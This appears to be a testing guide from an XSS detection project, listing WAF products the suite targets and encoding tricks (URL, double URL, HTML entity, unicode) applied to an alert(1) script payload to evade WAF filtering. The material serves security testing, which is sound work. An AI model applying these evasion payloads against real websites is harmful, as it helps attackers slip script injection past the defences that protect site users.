 # WAF Bypass Testing Guide

**Project:** BRS-XSS (XSS Detection Suite)  
**Company:** EasyProTech LLC (www.easypro.tech)  
**Developer:** Brabus  
**Date:** Wed 15 Oct 2025 02:25:00 MSK  
**Telegram:** https://t.me/EasyProTech

## Overview

This document describes the WAF bypass testing suite for BRS-XSS, which validates the effectiveness of various evasion techniques against known WAF products.

## Supported WAFs

The test suite validates bypasses against:

1. **Cloudflare** - Industry-leading CDN/WAF
2. **AWS WAF** - Amazon Web Services WAF
3. **ModSecurity** - Open-source WAF
4. **Imperva (Incapsula)** - Enterprise WAF
5. **Akamai** - CDN with WAF capabilities
6. **F5 BIG-IP ASM** - Application Security Manager
7. **Barracuda** - Network security appliance
8. **Fortinet FortiWeb** - Web application firewall

## Bypass Techniques

### Encoding Techniques

#### URL Encoding
```python
<script>alert(1)</script>
→ %3Cscript%3Ealert(1)%3C/script%3E
```

#### Double URL Encoding
```python
<script>alert(1)</script>
→ %253Cscript%253Ealert(1)%253C/script%253E
```

#### HTML Entity Encoding
```python
<script>alert(1)</script>
→ &lt;script&gt;alert(1)&lt;/script&gt;
→ &#60;script&#62;alert(1)&#60;/script&#62;
→ &#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E
```

#### Unicode Encoding
```python
<script>alert(1)</script>
→ \u003Cscript\u003Ealert(1)\u003C/script\u003E
→ \x3Cscript\x3Ealert(1)\x3C/script\x3E
```
